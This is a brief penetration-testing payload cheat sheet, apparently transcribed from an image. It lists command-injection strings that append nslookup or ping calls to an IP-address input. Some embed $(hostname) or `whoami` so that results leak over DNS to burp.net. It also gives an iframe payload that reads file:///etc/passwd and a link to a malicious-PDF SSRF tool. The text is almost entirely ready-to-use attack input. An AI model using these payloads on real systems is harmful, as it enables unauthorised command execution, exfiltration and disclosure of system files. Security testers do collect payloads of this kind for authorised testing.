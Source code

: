 ## OS commands:
```
8.8.8.8;nslookup $(hostname).burp.net
8.8.8.8;nslookup burp.net
x||nslookup+x.burp.net||
& nslookup burp.net. &
|| ping -c 10 burp.net ; x || ping -n 10 burp.net &
||nslookup+`whoami`.burp.net||
```
## Chain attacks:
```
<iframe src=”file:///etc/passwd”/></iframe>
```
## URLS
```
### PDF to SSRF
https://github.com/jonaslejon/malicious-pdf
```
